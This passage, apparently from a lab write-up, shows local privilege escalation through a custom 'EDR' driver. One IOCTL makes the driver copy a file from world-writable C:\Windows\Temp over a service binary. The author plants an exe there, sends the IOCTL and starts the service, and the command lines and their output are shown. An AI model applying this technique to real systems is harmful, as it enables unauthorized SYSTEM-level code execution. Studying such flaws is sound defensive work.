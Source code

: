 ```c
    }
    return uVar3;
}
```

based on the above, when the driver receives the IOCTL `0x222404`, it performs a copy operation, overwriting `C:\Windows\System32\UpdateInitializer.exe` with the file at `C:\Windows\Temp\UpdateInitializer.exe`. 

using `powerpick`, it was found that this file is registered as a service.

```shell
powerpick Get-WmiObject win32_service | ?{$_.PathName -like "*UpdateInitializer*"}

ExitCode  : 0
Name      : UpdateInitializer
ProcessId : 0
StartMode : Manual
State     : Stopped
Status    : OK
```

the driver hasn't performed any validation of the file in the `Temp` directory, and all users of the system have write access to `C:\Windows\Temp`, meaning this can be exploited.

### dropping

we can drop a file (`.exe`) of our choosing to `C:\Windows\Temp\UpdateInitializer.exe`.

to send the IOCTL to the driver, it's basically using a tool similar to `DriverQuery.exe`, called `DriverClient.exe`. this was also written in C#.

```shell
execute_assembly DriverClient.exe EDR 0x222404

[*] Sending IOCTL to EDR. Stand by...
[+] Sent IOCTL 0x222404. Driver returned 0 bytes.
```

```shell
shell sc start UpdateInitializer

SERVICE_NAME: UpdateInitializer
        TYPE           : 10 WIN32_OWN_PROCESS
        STATE          : 2 START_PENDING
        (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE: 0 (0x0)
        SERVICE_EXIT_CODE: 0 (0x0)
        CHECKPOINT     : 0x0
        WAIT_HINT      : 0x7d0
        PID            : 2660
        FLAGS          :
```

